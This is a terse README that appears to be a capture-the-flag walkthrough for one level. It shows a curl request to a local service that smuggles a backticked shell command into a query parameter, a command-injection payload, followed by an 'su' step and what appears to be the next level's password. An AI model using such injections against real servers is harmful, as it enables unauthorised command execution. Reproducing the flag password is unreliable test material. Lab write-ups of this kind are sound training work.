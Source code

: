# README

## Read *pl --> script perl


curl 'localhost:4747/?x=`getflag`'

su - level05
earoevaevoem4ov4ar8ap
